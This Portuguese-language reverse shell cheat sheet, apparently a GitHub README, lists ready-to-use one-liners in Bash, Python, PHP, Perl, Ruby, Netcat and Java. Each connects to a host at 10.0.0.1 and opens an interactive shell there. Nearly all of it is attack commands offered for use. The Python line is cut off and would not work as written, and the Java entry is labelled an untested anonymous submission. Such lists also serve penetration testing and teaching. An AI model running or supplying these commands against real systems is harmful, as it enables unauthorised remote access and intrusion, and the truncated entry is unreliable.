 # Reverse Shell Cheat Sheet

Os exemplos abaixo são para sistemas Linux, mas alguns podem ser testados em sistemas Windows alterando  “/bin/sh -i” por “cmd.exe”.

## Bash

Algumas versões do bash podem executar um  reverse shell (Ex: Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## Python 2.7

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

## PHP
Esta linha de comando utiliza “TCP connection file descriptor 3”. Caso não funcione , tente 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Netcat

nc -e /bin/sh 10.0.0.1 1234

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]

## Fonte:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet
